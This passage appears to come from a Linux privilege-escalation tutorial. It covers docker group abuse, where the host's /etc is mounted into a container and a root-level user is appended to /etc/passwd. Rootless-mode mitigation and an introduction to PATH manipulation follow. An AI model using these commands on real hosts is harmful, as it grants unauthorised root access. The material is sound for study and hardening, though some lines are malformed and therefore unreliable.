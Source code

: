 Like `lxd`, a user with the `docker` group access, is equivalent to root access. It is possible to break out of a docker container, and gain root acess to the host. 
https://www.docker.com/resources/what-container
https://opensource.com/resources/what-docker
https://gtfobins.github.io/gtfobins/docker

```bash
# Run a public docker image named ubuntu, and command uname -a
docker run ubuntu uname -a

# Get a shell
docker <container> run -it ubuntu /bin/sh
```

So how do get privilege escalation?
Let's start by mounting the host filesystem in the container:

```bash
# Mount the host /home directory to /mnt in the container
docker run -v /home:/mnt -it ubuntu

# Mount /etc to /mnt
docker run -v /etc:/mnt -it ubuntu
# Once mounted in the container shell, we can retrieve contents of passwd/shadow
# We can also just add a new user to /etc/passwd:
echo 'pom:poD7u2nSiBSLKL0:0:root:/root:/bin/bash' >> /etc/passwd
# Exit the container
exit
# Switch to the pom user and verify identity
su pom
id
```

### Mitigating Docker Privilege Escalation

Essentiallly, being a member of the Docker group is the equivalent of root. 
An effective strategy then is to have the Docker daemon run containers in `rootless` mode. This allows containers to run as a non-root user to limit privilege escalation. 
This executes Docker daemon and containers inside a user namespace, which separates user ID's and group ID's between the docker host and the containers, providing container isolation. 
In practice, this means a privileged user in the container, is mapped to a non-privileged user on the host.
https://docs.docker.com/engine.security/userns-remap/

## Path Manipulation

`PATH` is an environment variable which specifices where binaries / executable programs are located. This allows executing with solely a binary name, instead of a relative / fully qualified path. 
On Linux this is viewable via:

```bash
echo $PATH
```

On Windows this is accessible via `Avanced System Settings -> System Properties -> Environment Variables`.
